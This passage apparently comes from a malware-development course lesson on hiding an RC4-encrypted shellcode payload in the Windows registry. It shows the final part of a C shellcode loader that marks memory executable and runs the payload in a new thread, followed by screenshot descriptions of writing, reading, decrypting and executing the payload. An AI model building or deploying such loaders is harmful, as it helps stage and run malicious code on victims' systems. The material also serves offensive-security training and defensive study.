 ```c

    memcpy(pShellcodeAddress, pDecryptedShellcode, sDecryptedShellcodeSize);
    memset(pDecryptedShellcode, '\0', sDecryptedShellcodeSize);

    if (!VirtualProtect(pShellcodeAddress, sDecryptedShellcodeSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    printf("[#] Press <Enter> To Run ... ");
    getchar();

    if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    return TRUE;
}

```

### Writing To The Registry - Demo

Before executing the compiled code shown above, the registry key looks like this:

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/registry-demo-1.png)

  

After running the program, a new registry string value is created with the RC4 encrypted payload.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/registry-demo-2.png)

  

Double-clicking on `MaldevAcademy` will show the payload in HEX and ASCII format.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/registry-demo-3.png)

  

### Reading The Registry - Demo

The program begins by reading the encrypted payload from the Registry.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/registry-read-demo-1.png)

  

Next, the program will decrypt the payload.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/registry-read-demo-2.png)

  

Finally, the decrypted payload is executed.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/registry-read-demo-3.png)